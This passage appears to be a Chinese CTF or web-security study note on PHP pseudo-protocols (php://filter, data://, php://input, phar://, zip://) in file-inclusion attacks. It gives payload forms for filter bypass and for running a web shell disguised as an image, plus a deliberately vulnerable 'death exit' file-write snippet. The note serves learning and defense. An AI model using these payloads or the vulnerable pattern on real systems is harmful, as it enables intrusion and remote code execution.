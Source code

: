另一种字符串过滤器则为对每个字符添加规则进行转换：

```
string.rot13：rot13编码
string.toupper(tolower)：字符转换为大/小写
string.strip_tags：用来去除读入的所有标签类特征字符（例如XML,HTML等）
```

还有一类压缩过滤器，压缩过滤器的原理是对输入的数据流中有效信息进行压缩，而不是将信息流转换为文件后直接压缩，故不会产生压缩文件格式的特殊头尾信息。

```
zlib.deflate(inflate)
bzip2.compress(decompress)
```

----

```
data:// 将原本include包含的文件直接重定向到用户的输入流，且输入流被当成php文件执行。
当服务器对类似恶意攻击方式做了过滤时，可以进行绕过修改text后的payload为plain;base64,[encrypted payload]
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404091546670.png)

```
php://input 将post输入流直接当成php代码执行（只读），需要攻击页面有post位置才可行（或者直接burpsuite抓包）
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404091546531.png)

修改请求头后直接在结尾随意添加payload即可。

```
phar://压缩包路径//压缩包内部文件名
具体流程为：将php文件压缩为zip，将zip文件后缀为jpg等可上传的格式
payload:?test=phar://./shell.jpg/shell.php
```

```
zip:// 和phar://用法类似，payload构造略有区别
payload:?test=phar://./info.jpg#info.php
（在url直接提交时要把#转换为%23)
```

###### php://filter到底怎么用--伪协议和死亡exit

根据查找到的资料，以filter为主要绕过攻击方式的场景大多和XXE（XML Eternal Entity）有关，股在此只抛砖引玉，等后面涉及到XXE时再进行深入的学习。

由于XML语言的特殊性，<?php ... ?>标签会被错误的当作XML语言执行，如果内部代码与XML语法发生冲突就会出错：

```
parser error : StartTag: invalid element name
```

php://filter协议可以很好地解决这一问题，通过之前介绍的编解码器处理信息流后就能规避被XML错误解析的问题。

**intersting demos**指的是我在查询资料时发现的一个很有意思的小东西，它被称为“死亡exit”：死亡exit的核心代码是这样：

```php
<?php
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
?>
```
